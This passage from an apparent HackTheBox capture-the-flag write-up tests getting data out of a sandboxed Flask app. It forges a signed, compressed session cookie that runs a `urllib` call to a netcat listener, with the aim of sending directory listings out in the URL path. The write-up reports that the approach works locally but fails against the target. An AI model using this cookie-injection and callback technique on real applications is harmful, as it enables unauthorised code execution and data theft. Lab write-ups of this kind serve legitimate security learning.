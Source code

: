The strategy here is to open a port of our public facing machine (using netcat for instance). We then launch a `GET` request from the target app using the `urllib` Python library. As the endpoint for the URL we use information we could be interested into, like the result of `os.listdir(.)`.

For instance assume that `[a.py,b.py]` is the result of the directory listing. The `GET` request to be sent is then `GET /[a.py,b.py]`. Although such a route does not exist we can anyway see the information from the log of our listening service.

To build this strategy we use the app running in our container at first.

We launch netcat on our local machine: `nc -lp 1234`.

It is not necessary right now to send the payload that would return the information we are interested into. We have to check that such a strategy could actually work.

This is why we send a fake message at first. We send something like `FILES_LIST`. If we recieve it from the HTB machine to our public netcat instance then building more complex payloads make sense. We could for instance use the `os` module to get more info.

On the other hand, if our public facing machine does not recieve the GET request from HTB then we will know also this strategy is to be abandoned.


```python
pl_info_in_fake_route = """import urllib as u;u.urlopen('http://173.17.0.1:1234/FILES_LIST')"""
```

We test it first on our local network interface.


```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server2
    Using the url: http://173.17.0.3:1337



```python
res = get_response_from_the_app_using_cookie(url,
                                             from_payload_to_cookie_for_flask(
                                                 make_the_payload_using_base64_and_zlib(
                                                     make_a_statement_for_exec_consistent_with_sandbox(
                                                         pl_info_in_fake_route)),
                                                 secret_key,debug_recipe=True))
```

The following image shows that we were able to do this on our local network interface.

<img src="https://i.ibb.co/mXKXtWV/nc-fileslist-local.png" alt="nc-fileslist-local" border="0">

We are as well able to send this information from our containerized app to our public facing machine on AWS.

Nothwithstanding we **fail** when we try to send it from the HTB machine to our public IP.

Also this strategy does not work!

## Flask
